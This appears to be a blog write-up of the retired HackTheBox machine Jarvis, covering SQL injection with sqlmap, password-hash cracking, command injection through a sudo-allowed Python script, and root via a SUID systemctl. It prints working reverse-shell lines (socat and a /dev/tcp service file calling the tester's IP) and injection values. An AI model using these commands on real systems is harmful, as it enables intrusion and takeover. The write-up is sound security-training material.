 ```yaml
---
layout: post
title:  "HTB - Jarvis"
date:   2019-09-07 20:00 +0100
tags: writeups
---
```

Writeup for the retired HTB machine Jarvis  
Link: https://www.hackthebox.eu/home/machines/profile/194  
IP: 10.10.10.143

<!--more-->

## Recon
nmap reveals a very limited port selection:
```
22/tcp    open     ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp    open     http    Apache httpd 2.4.25 ((Debian))
5355/tcp  filtered llmnr
64999/tcp open     http    Apache httpd 2.4.25 ((Debian))
```

The web page on port 80 is a php site with not much at the first glance.  
On port 64999 you'll get a blank page with "Hey you have been banned for 90 seconds, don't be bad" on the first call. Interesting.  
Let's get the gobuster warmed up!

## Gobuster port 80
```
/images (Status: 301)
/index.php (Status: 200)
/nav.php (Status: 200)
/footer.php (Status: 200)
/back.php (Status: 200)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/phpmyadmin (Status: 301)
/connection.php (Status: 200)
/room.php (Status: 302)
/sass (Status: 301)
/server-status (Status: 403)
```

Huh. The site reacts weird if you play around with the Room Booking (http://10.10.10.143/room.php?cod=1) soooo... sqlmap to the rescue!


## SQLMap all ze things!

`sqlmap -u http://10.10.10.143/room.php?cod=2 --dump`

That works like a charm. So let's see if we can dump passwords from the db :3  

`sqlmap -u http://10.10.10.143/room.php?cod=2 --passwords` aaaaaaand success!  

```
[10:43:12] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: PHP, Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[10:43:12] [INFO] fetching database users password hashes
[10:43:12] [INFO] used SQL query returns 1 entry
[10:43:12] [INFO] used SQL query returns 1 entry
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[10:43:18] [INFO] writing hashes to a temporary file '/tmp/sqlmapQV5_6528897/sqlmaphashes-wQNuZc.txt' 
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] y
[10:43:22] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 2
what's the custom dictionary's location?
> /usr/share/wordlists/rockyou.txt
[10:44:00] [INFO] using custom dictionary
[10:44:04] [INFO] starting dictionary-based cracking (mysql_passwd)
[10:44:04] [INFO] starting 2 processes 
[10:44:04] [INFO] cracked password 'imissyou' for user 'DBadmin'                                                                                                     
[10:45:16] [INFO] current status: nutju... -^C
[10:45:16] [WARNING] user aborted during dictionary-based attack phase (Ctrl+C was pressed)
database management system users password hashes:                                                                                                                    
[*] DBadmin [1]:
    password hash: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
    clear-text password: imissyou
```
So with that, we could log in into the phpMyAdmin, right? But wait, sqlmap can do so much more.  
`sqlmap -u http://10.10.10.143/room.php?cod=2 --os-shell`  
aaaaand we got ourselves a shell as `www-data`. By looking around a bit, we learn that the target user is named `pepper`.  
Also, there's an interesting script in `/var/www/Admin-Utilities`, it's `simpler.py`.  
Let's get that file:  
`sqlmap -u http://10.10.10.143/room.php?cod=2 --file-read=/var/www/Admin-Utilities/simpler.py`
Looks like the script does something in the user home. I wonder if there's some sudo config that allows me to run it as user?
`sqlmap -u http://10.10.10.143/room.php?cod=2 --os-cmd="sudo -l"`  
```
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```
And we're reaching the limits of the sqlmap console, because to do something interesting with the Python script,  
we need an interactive session. So fire up a python http server and wget the `apalaxsh.php` from this dir to `www-data`.  
Fire up nc with `nc -nvlp 9999`, open your browser and point it to `/apalaxsh.php` and voila - shell.  

## Road to user
Now we can play around with the full script as user pepper:  
`sudo --user=pepper /var/www/Admin-Utilities/simpler.py`  

This [article on Infoblox Shell Escape](https://packetstormsecurity.com/files/144749/Infoblox-NetMRI-7.1.4-Shell-Escape-Privilege-Escalation.html) provides some ideas on how to escape via sudo/ping:  

```
$ sudo --user=pepper /var/www/Admin-Utilities/simpler.py -p

Enter an IP: $(cat /home/pepper/user.txt)

ping: 2afa36c4f05b37b34259c93551f5c44f: Temporary failure in name resolution
```

but not only that. By upgrading the shell to a full interactive shell first (`python -c 'import pty; pty.spawn("/bin/sh")'`),  
we're able to spawn a shell as pepper:  
```
sudo --user=pepper /var/www/Admin-Utilities/simpler.py -p

Enter an IP: $(/bin/bash)
$(/bin/bash)
pepper@jarvis:/$ ^^
```
This shell isn't perfectly working, so we're upgrading to a full reverse shell. Fire up nc on port 8989 and  
`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.15.195:8989`
So let's continue. 


## Road to root  
So by poking around we find that systemctl has the SETUID bit set. That means that it runs under root!  
We could pin together a systemctl oneshot service to reverse shell out as root...  
```
[Unit]
Description=Black magic happening, avert your eyes

[Service]
RemainAfterExit=yes
Type=simple
ExecStart=/bin/bash -c "exec 5<>/dev/tcp/10.10.15.195/8888; cat <&5 | while read line; do $line 2>&5 >&5; done"

[Install]
WantedBy=default.target
```
Then make use of systemctl link to link the service file into the correct position:  
`systemctl link /home/pepper/apalax.service`
 and enable it, therefore opening the connection to port 8888 on our Machine:  
`systemctl start --now apalax`  

The shell's ugly but it works. `cat /root/root.txt` works like a charm.